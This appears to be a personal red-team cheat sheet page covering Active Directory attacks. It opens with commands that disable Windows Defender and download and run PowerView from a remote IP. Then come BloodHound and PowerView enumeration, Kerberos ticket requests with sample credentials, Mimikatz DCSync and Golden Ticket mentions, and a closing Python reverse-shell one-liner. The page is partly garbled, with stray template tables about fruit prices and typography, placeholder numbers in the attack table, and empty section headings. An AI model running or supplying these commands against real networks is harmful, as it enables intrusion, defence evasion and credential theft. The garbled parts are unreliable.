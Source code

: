 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION

I do prefer to do manual enumeration but on large enterprice networks, some automated scan would come in handy to search for low hanging fruits

Automated Scanners
AdPeas.ps1

You can aswell use BloodHound to visualize data

> checklist
check password policy
gather usernam -
Pray and Spray with CME 

```powershell
#For SharpHound.exe
./SharpHound.exe --CollectionMethod All

#For SharpHound.ps1
Invoke-BloodHound -ZipFileName ratloot -CollectionMethod All -Domain  rat.local

```
<span class="demo-highlight"># Patch AMSI or disable AV</span>

Getting hands dirty with PowerView
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Domain & Controller Enumeration</span>

```powershell
Get-NetDomain 
            
Get-NetDomainController     
```
<br>
 <span class="demo-highlight"># User Enumeration</span>

```powershell
# Get all users present in the domain
Get-NetUsers | select cn

# Get users sorted with most logoncounts
Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending

# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying
Get-NetUsers | select samaccountname > username.txt

```
<br>
<span class="demo-highlight"># Group Enumeration </span>

```powershell
# Get AD groups data either all or of a user
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']

# Get Members of a group
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]	
```
<br>
<span class="demo-highlight"># Share Enumeration</span>

```powershell
# Find interesting shares
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint	

```
<br>
<span class="demo-highlight"># GPO Enumeration</span>

```powershell
# List all GPOs in the domain
Get-NetGPO [-ComputerName <rat.domain>]	

#Find Interesting GPO
Get-NetGPOGroup

```
<br>
<span class="demo-highlight"># OU Enumeration</span>

```powershell
# Get all OU (Organisational Units) in the domain
Get-NetOU [-FullData]

# Get gplink of an OU to get GPOs applied to it
(Get-NetOU -Name 'test').gplink	

# Get GPO of a GPlink
Get-NetGPO -GPOName '{cadkfapsdfasdfaudvajkd}'

# Get GPO of an OU using gplink
((Get-NetOU -FullData <OU_NAME>).gplink -split "cn=" -split ",")[1] | Get-NetGPO
```
<br>
<span class="demo-highlight"># ACL Enumeration</span>

```powershell
# Find interesting ACL
Invoke-ACLScanner -ResolveGUIDS	

# Find interesting ACL owned by a certain user :rat:
Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReference -match 'rat'}	
```
<br>
<span class="demo-highlight"># Trust Enumeration</span>

```powershell
# Map all domain trust
Get-NetDomainTrust [-Domain <target>]

# Get all the domain of a forest
Get-NetForestDomain [-Forest <target>]	
```
<br>
<span class="demo-highlight"># Hunting Users and Sessions</span>

```powershell
# Get list of all machines where current user has local admin access
Find-LocalAdminAccess	

# Invoke-EnumerateLocalAdmin	
Find all admins on all computers

# Find machines where a domain admin has a session, checkaccess tells you if you also have access to that machine
Invoke-UserHunter [-GroupName <group_name>] [-CheckAccess]	

# Get list of active sessions on a computer
Get-NetSession [-ComputerName <comp_name>]	

# Get list of Users logged-on on a system
Get-LoggedOnLocal [-ComputerName <comp_name>]	
```

<br>
## Kerberos Attacks
<br>
<span class="demo-highlight"># working from linux with creds</span>


````powershell
# username : rat
# password : r@tty419
# domain : rodent.local
impacket-getTGT rodent.local/rat:'r@tty419'


# now import the ticket into memory
export KRB5CCNAME=/tmp/rat.ccache

# confirm the ticket in memory 
klist
````
<br>
<br>
<span class="demo-highlight"># working from windows with creds</span>
````powershell
# Using Rubeus

./Rubeus.exe asktgt 
````

<br>
using */altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm* in Rubeus you can ask for all the tickets
<br>
| Service Ticket   | Service Type | # Abuse funtino |
|--------------|:-----:|-----------:|
| CIFS         |Windows FileShare, PsExec |        739 |
| HOST         |PsRemoting, Scheduled Task | adcad |
| HTTP         |PsRemoting|$sess = New-PsSession -Computername DC01; Enter-PsSession -Session $sess |
| LDAP         |LDAP Ops, DCSync |Mimikatz > lsadump::dcsync /rat.local:$DC-IP /all /csv |
| RPCSS        |  1.99 |        739 |
| KRBTGT       |Golden Ticket |do anything lol,|

| HOST & RPCSS |WMI |  WMIEXEC|
| HOST & HTTP |WinRM |  WMIEXEC|

<br>
| Item         | Price     | # In stock |
|--------------|-----------|------------|
| Juicy Apples | 1.99      | *7*        |
| Bananas      | **1.89**  | 5234       |
<br>

|                |ASCII                          |HTML                         |
|----------------|-------------------------------|-----------------------------|
|Single backticks|`'Isn't this fun?'`            |'Isn't this fun?'            |
|Quotes          |`"Isn't this fun?"`            |"Isn't this fun?"            |
|Dashes          |`-- is en-dash, --- is em-dash`|-- is en-dash, --- is em-dash|
<br>
```mermaid
graph LR
A[Square Rect] -- Link text --> B((Circle))
A --> C(Round Rect)
B --> D{Rhombus}
C --> D
```
## RTF && SCF Weaponization

<br>
<br>
<br>

# MITM6 IPV6 Attack

<br>
<br>
<br>




```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
